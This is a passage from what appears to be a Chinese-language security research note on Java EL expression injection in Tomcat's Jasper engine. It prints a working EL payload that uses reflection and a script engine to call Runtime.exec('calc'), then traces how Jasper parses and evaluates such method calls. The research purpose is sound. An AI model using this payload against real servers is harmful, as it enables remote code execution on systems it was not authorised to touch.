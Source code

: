* fail✖️

>  <%  "".getClass().*forName*("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec('calc')");
>
> %>
>
> The method getEngineByName(String) is undefined for the type

* work✔️

> ${"".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec('calc')")}

可见EL表达式能够自动进行类型转换，下面看看Tomcat内置的JSP引擎——Apache Jasper如何执行EL表达式

## Method Call

`org.apache.jasper.runtime.PageContextImpl#proprietaryEvaluate`

​		-> `org.apache.el.ExpressionFactoryImpl#createValueExpression`

​			对EL表达式进行AST解析，以点号进行分割

​			![image-20230831112846343](./../.gitbook/assets/image-20230831112846343.png)

​	-> `org.apache.el.ValueExpressionImpl#getValue`

​		-> `org.apache.el.parser.AstValue#getValue`

​			判断当前是方法调用，则获取下一个`AstMethodParameters`节点作为方法调用参数。每轮解析后都会更新base，作为下一轮方法调			用或成员获取的对象。
